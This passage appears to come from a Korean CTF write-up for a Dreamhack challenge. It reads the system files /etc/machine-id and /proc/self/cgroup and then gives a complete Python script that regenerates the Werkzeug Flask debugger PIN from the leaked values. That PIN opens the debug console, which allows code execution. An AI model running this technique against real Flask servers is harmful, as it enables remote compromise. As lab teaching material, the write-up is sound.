 * `get_machine_id()` : `/etc/machine-id` 파일 값  + `/proc/self/cgroup` 파일 값 

    * **c31eea55a29431535ff01de94bdcf5cflibpod-eb9d4cb835460a3375a8a1149ca6f62c3b2e33a3c08b92007c95330cd8f6b05e**

#### PIN 생성

`__init__.py` 내에 존재하는 `get_pin_and_cookie_name()` PIN 생성 함수를 사용하여 만들 수 있다.

```python
import hashlib
from itertools import chain

def get_pin_and_cookie_name():
    probably_public_bits = [
        'dreamhack',
        'flask.app',
        'Flask',
        '/usr/local/lib/python3.8/site-packages/flask/app.py',
    ]

    private_bits = [
        '187999308491265',
        b'c31eea55a29431535ff01de94bdcf5cflibpod-eb9d4cb835460a3375a8a1149ca6f62c3b2e33a3c08b92007c95330cd8f6b05e'
    ]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = "__wzd" + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b"pinsalt")
        num = ("%09d" % int(h.hexdigest(), 16))[:9]

    rv = None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':
    get_pin_and_cookie_name()
```
